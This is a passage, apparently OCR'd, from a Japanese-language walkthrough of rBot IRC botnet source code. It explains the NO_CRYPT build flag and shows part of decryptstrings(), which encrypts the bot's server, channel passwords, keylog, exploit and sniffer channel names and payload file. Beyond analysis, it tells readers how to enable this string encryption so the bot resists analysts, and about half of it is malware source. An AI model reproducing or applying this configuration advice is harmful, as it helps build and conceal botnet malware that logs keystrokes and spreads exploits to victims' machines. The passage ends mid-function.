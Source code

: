 	return ((prefix)?(prefixnick(strbuf)):(strbuf));
}
-----


■0x09.) NO_CRYPTってなんだ

　ウイルスを作成する人がいるなら解析をする人もいる訳で、幾つかの対策を施
すことは解析するより時間をかけずに済みます。NO_CRYPTが宣言されていない場
合にボットが保持する幾つかの情報は暗号化されます。プロジェクトをビルドし
て実行可能ファイルが生成されたときに内部で保持されているデータセグメント
領域はメモリに展開されて実行された段階でメモリ上のその領域は暗号化されま
す。ファイル自体をダンプされなければ見つかりません（winmgr.exeをダンプす
る人いる？）

-----
#ifndef NO_CRYPT
	/* この領域は暗号化される */
#else
	/* この領域は暗号化されず */
#endif
-----

　Visual Studio 2005ではconfigs.hを見た時、#else ~ #endif が有効になって
いました(#ifndef NO_CRYPT ~ #elseに定義された変数群は灰色となる)。
　よって、どこかでNO_CRYPT が宣言されたことがわかるのです、しかし、Ctrl+F
を使い検索対象を現在のプロジェクトとして NO_CRYPTを検索しても#define NO_
CRYPTは見つからないなにかを解析する時には作者の意図を掴む必要に時々巡り合
います。
　そこで、プロジェクトのプロパティからC/C++のプリプロセッサを開くと宣言さ
れていました。

-----
WIN32;NDEBUG;_WINDOWS;NO_AVFW_KILL;NO_SECSYSTEM;NO_REGISTRY;NO_EHANDLER;NO_CRYPT;
-----

　なぜプロジェクト本体に宣言しているのか、普通に考えればdefins.hで宣言す
る方が統一性があると思うのですが一先ず暗号化を有効にするにはNO_CRYPTを外
して#else ~ #endif の変数群を #ifndef ~ #else に移動させれば良いです。そ
うすれば crypt.cpp - decryptstrings() によって、rBotが起動した時に暗号化
されます

-----
#ifndef NO_CRYPT 
void decryptstrings(int authsize, int versionsize)
{
	int i;

	Crypt(botid,strlen(botid),"",0);
	Crypt(version,strlen(version),"",0);
	Crypt(server,strlen(server),"",0);
	Crypt(serverpass,strlen(serverpass),"",0);
	Crypt(channel,strlen(channel),"",0);
	Crypt(chanpass,strlen(chanpass),"",0);
	Crypt(server2,strlen(server2),"",0);
	Crypt(channel2,strlen(channel2),"",0);
	Crypt(chanpass2,strlen(chanpass2),"",0);
	Crypt(filename,strlen(filename),"",0);
	Crypt(keylogfile,strlen(keylogfile),"",0);
	Crypt(valuename,strlen(valuename),"",0);
	Crypt(nickconst,strlen(nickconst),"",0);
	Crypt(szLocalPayloadFile,strlen(szLocalPayloadFile),"",0);
	Crypt(modeonconn,strlen(modeonconn),"",0);
	Crypt(exploitchan,strlen(exploitchan),"",0);
	Crypt(keylogchan,strlen(keylogchan),"",0);
	Crypt(psniffchan,strlen(psniffchan),"",0);
